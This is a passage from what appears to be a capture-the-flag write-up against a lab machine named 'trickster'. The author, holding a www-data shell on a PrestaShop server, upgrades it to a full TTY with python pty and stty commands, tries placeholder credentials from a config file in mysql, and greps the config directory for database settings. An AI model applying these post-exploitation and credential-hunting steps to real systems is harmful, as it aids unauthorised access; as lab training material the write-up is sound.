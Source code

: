 ```bash
 * https://opensource.org/licenses/OSL-3.0
 * If you did not receive a copy of the license and are unable to
 * obtain it through the world-wide-web, please send an email
 * to license@prestashop.com so we can send you a copy immediately.
 *
 * DISCLAIMER
 *
 * Do not edit or add to this file if you wish to upgrade PrestaShop to newer
 * versions in the future. If you wish to customize PrestaShop for your
 * needs please refer to https://devdocs.prestashop.com/ for more information.
 *
 * @author    PrestaShop SA and Contributors <contact@prestashop.com>
 * @copyright Since 2007 PrestaShop SA and Contributors
 * @license   https://opensource.org/licenses/OSL-3.0 Open Software License (OSL 3.0)
 */

/*
return array(
    array('server' => '192.168.0.15', 'user' => 'rep', 'password' => '123456', 'database' => 'rep'),
    array('server' => '192.168.0.3', 'user' => 'myuser', 'password' => 'mypassword', 'database' => 'mydatabase'),
    );
*/

return array();
```

Searched through these manually before both realizing this wasn't the right config and that I can do it smarter. Those creds are fake and don't work in mysql. Oh right we should get a better shell so we can use mysql:

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
Ctrl-Z
stty raw -echo; fg
export TERM=xterm
script /dev/null -qc /bin/bash
```

Proof it didn't work:

```bash
www-data@trickster:/$ mysql -u myuser -p
Enter password: 
ERROR 1045 (28000): Access denied for user 'myuser'@'localhost' (using password: YES)
www-data@trickster:/$ mysql -u rep -p
Enter password: 
ERROR 1698 (28000): Access denied for user 'rep'@'localhost'
```

The smarter way to do it:

```bash
www-data@trickster:~/prestashop/app$ ls config
addons			config_legacy_test.yml	routing.yml
api_platform		config_prod.yml		routing_dev.yml
config.yml		config_test.yml		security_dev.yml
config_dev.yml		doctrine.yml		security_prod.yml
config_legacy.yml	parameters.php		security_test.yml
config_legacy_dev.yml	parameters.yml		services.yml
config_legacy_prod.yml	parameters.yml.dist	set_parameters.php
www-data@trickster:~/prestashop/app$ grep -iR "database"
config/doctrine.yml:        host: "%database_host%"
config/doctrine.yml:        port: "%database_port%"
config/doctrine.yml:        dbname: "%database_name%"
config/doctrine.yml:        user: "%database_user%"
```